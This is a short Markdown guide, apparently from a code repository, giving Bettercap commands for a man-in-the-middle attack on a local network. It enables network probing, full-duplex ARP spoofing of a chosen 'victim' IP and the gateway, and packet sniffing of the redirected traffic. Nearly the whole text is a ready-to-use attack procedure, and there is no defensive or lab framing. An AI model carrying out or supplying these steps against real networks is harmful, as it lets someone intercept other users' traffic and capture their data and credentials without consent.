 
# Network Probing and ARP Spoofing Configuration

This guide outlines the steps for setting up network probing, ARP spoofing, and packet sniffing on a local network. The configuration will allow for sending probe packets, performing a Man-in-the-Middle (MITM) attack through ARP spoofing, and capturing network traffic from selected targets.
### 1.Start Bettercap:

**Command:**
```
bettercap
```

### 2. Enable Network Probing

**Command:**
```
net.probe on
```
**Description:**
This command activates the network probing feature, which sends various types of probe packets to identify active devices and network configurations.

### 3. Configure ARP Spoofing for Full Duplex

**Command:**
```
set arp.spoof.fullduplex true
```

**Description:**
Enables full-duplex ARP spoofing. This mode allows spoofing ARP replies to both the target and the gateway, facilitating a MITM attack. In this setup, crafted ARP packets are sent to trick selected hosts into sending their traffic through the attacker's machine.

### 4. Set ARP Spoofing Targets

**Command:**
```
set arp.spoof.targets <Target IP>
```

**Description:**
Specifies the IP address of the target device to be spoofed. Replace `<Target IP>` with the actual IP address of the victim device you want to intercept.

### 5. Enable Local Packet Sniffing

**Command:**
```
set net.sniff.local true
```

**Description:**
Activates packet sniffing on the local network. This allows the attacker to capture and analyze data packets sent and received by the target devices.

### 6. Start ARP Spoofing

**Command:**
```
arp.spoof on
```
**Description:**
Begins the ARP spoofing process. This command sends forged ARP packets to the target and the gateway, redirecting the network traffic through the attacker's machine.

### 7. Start Packet Sniffing

**Command:**
```
net.sniff on
```
**Description:**
Initiates the packet sniffing process. With this command, the attacker can monitor and capture all traffic between the target device and the network.

---

